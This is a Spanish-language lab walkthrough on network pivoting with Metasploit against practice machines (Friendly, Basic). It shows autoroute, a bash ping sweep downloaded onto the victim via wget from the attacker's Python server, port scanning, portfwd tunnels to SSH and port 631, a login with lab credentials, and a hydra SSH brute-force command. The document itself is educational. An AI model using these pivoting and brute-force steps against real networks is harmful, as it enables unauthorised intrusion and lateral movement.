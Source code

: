 # Pivoting en Entornos Linux - Parte 2

Maquinas que vamos a utilizar **Kali Linux , Friendly y Basic.**

[https://hackmyvm.eu/machines/machine.php?vm=Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)

[VulNyx | Offensive Security Playground](./imagenes/https://vulnyx.com/#basic)

<aside>
👉

**Seguimos donde lo dejamos desde donde lo dejamos en la sesión de  meterpreter que habíamos conseguido de la maquina intermedia.**

</aside>

- Miramos las interfaces de red que tenemos disponibles
    
    `ifconfig`
    
    ![image.png](./imagenes/image%2080.png)
    
    Nos encontramos con la interface donde nos encontramos **10.0.3.21/24** y una nueva interface **10.10.10.6/24.**
    
- Hacemos un **Background** para dejar la sesión en segundo plano.
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%2081.png)
    

- Miramos el numero de ID de sesión.
    
    `sessions -l`
    
    ![image.png](./imagenes/image%2082.png)
    

- En rutamos el trafico con el modulo **/multi/manage/autoroute** y completamos los datos que nos pida y ejecutamos.
    
    `use /multi/manage/autoroute`
    
    `show options`
    
    `set SESSION 2`
    
    `show options`
    
    ![image.png](./imagenes/image%2083.png)
    
    `run`
    
    ![image.png](./imagenes/image%2084.png)
    
- Vamos a verlo
    
    `route`
    
    ![image.png](./imagenes/image%2085.png)
    
- **Metasploit tiene muchos módulos para escaneo de las redes** pero d**an muchos errores**. En una terminal nueva vamos a hacer es **hacer un script y ejecutarlo dentro de la maquina victima**.
    
    `nano escaner.sh`
    
    ```bash
    #! /bin/bash
    
    for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
        if [ $? -eq 0 ]; then
            echo "El host 10.10.10.$i está activo"
        fi
    done
    ```
    
    <aside>
    👉
    
    **Abría que adaptarlo a cada red interna que descubrir.**
    
    </aside>
    
    ![image.png](./imagenes/image%2086.png)
    
- Levantamos un servidor web con Python.
    
    ```bash
    python3 -m http.server 80
    ```
    
    ![image.png](./imagenes/image%2087.png)
    
    - **En metasploit entramos en la sesión** que teníamos **abierta** en la maquina intermedia.
        
        `sessions -l`
        
        `sessions -i 2`
        
        ![image.png](./imagenes/image%2088.png)
        

- Lanzamos una **shell para ejecutar comandos de Linux** ya que nos vamos a descargar dentro de la maquina intermedia el script que habíamos creado.
    
    `shell`
    
    `ls`
    
    `wget 10.0.3.4/escaner.sh`
    
    `l`
    
    ![image.png](./imagenes/image%2089.png)
    
- Le damos el **permisos de ejecución y lo ejecutamos**.
    
    `chmod +x escaner.sh`
    
    `./escaner.sh`
    
    ![image.png](./imagenes/image%2090.png)
    
    La IPs 10.10.10.1 y 10.10.10.2 van a ser puertas de enlace. las demás tendríamos que hace escaneos.
    
    Para ahorrar tiempo la IP que nos interesa es la 10.10.10.7. **Ya tenemos nuestra IP objetivo.**
    
    **CTRL+C** para parar el escaneo y hacemos un Background con **CTRL+Z**
    
    `CTRL+C`
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%2091.png)
    
- Vamos a utilizar otro modulo para **hacer un escaneo de puertos**. **scanner/portscan/tcp .**
    
    `use scanner/portscan/tcp`
    
    ![image.png](./imagenes/image%2092.png)
    
- Miramos las opciones. las completamos y ejecutamos el modulo.
    
    `show options`
    
    `set RHOST 10.10.10.7`
    
    `set PORTS 1-12500` → **Dependería del rango de puertos que queremos escanear**.
    
    ![image.png](./imagenes/image%2093.png)
    
    `run`
    
    ![image.png](./imagenes/image%2094.png)
    

---

- Vamos a atacar el **puerto 22** por lo tanto vamos hacer **port fowarding o reenvió de puertos** trayendo el puerto a puerto de mi maquina local. para ello debemos hacerlo en meterpreter.
    
    `sessions -l`
    
    `sessions -i 2`
    
    `portfwd add -l 222 -p 22 -r 10.10.10.7`
    
    <aside>
    💡
    
    `portfwd add` → Agrega una nueva regla de reenvío de puertos.
    
    `l 222` → Especifica el puerto local en el sistema atacante donde se escuchará la conexión.
    
    `p 22` → Especifica el puerto de destino en la máquina remota (en este caso, el puerto SSH).
    
    `r 10.10.10.7` → Especifica la dirección IP del sistema remoto al que se redirigirán las conexiones.
    
    Este comando crea un túnel desde el sistema atacante, permitiendo que cualquier conexión al puerto `222` en la máquina atacante sea redirigida al puerto `22` en `10.10.10.7`. Esto permite al atacante conectarse de manera indirecta a la máquina objetivo a través de su propia máquina.
    
    </aside>
    
    ![image.png](./imagenes/image%2095.png)
    
- **Accedemos al puerto 22 de la maquina victima final**. En nuestra Kali abrimos un terminal y entramos por SSH.
    
    <aside>
    👉
    
    Recordemos que esta maquina ya la habíamos hecho y que el **usuario** es **dimitri** y la **contraseña** es **mememe.**
    
    </aside>
    
    `ssh [dimitri@127.0.0.1](./imagenes/mailto:dimitri@127.0.0.1) -p 222`
    
    <aside>
    💡
    
    `ssh` → Es el cliente SSH que se utiliza para conectarse de forma segura a otro sistema.
    
    `dimitri@127.0.0.1` → Indica que el usuario `dimitri` quiere conectarse a la dirección IP `127.0.0.1`, que representa la máquina local (localhost).
    
    `p 222` → Especifica que la conexión debe hacerse usando el puerto `222` que es donde hemos hecho el reenvio en lugar del puerto por defecto de SSH (`22`).
    
    </aside>
    
    ![image.png](./imagenes/image%2096.png)
    
- Si por ejemplo quisiera hacer aquí un ataque con hydra a este puerto seria asi:
    
    ```bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt -t 4 ssh://127.0.0.1 -s 222
    ```
    
    ---
    
    - Vamos a atacar el **puerto 631** por lo tanto vamos hacer **port fowarding o reenvió de puertos** trayendo el puerto a puerto de mi maquina local. para ello debemos hacerlo en meterpreter.
        
        `portfwd add -l 5000 -p 631 -r 10.10.10.7`
        
        ![image.png](./imagenes/image%2097.png)
        
- Como es Sabemos por un ejercicio anterior que es un servicio web abrimos un navegador web y escribimos 127.0.0.1:5000.
    
    `http://127.0.0.1:5000/`
    
    ![image.png](./imagenes/image%2098.png)
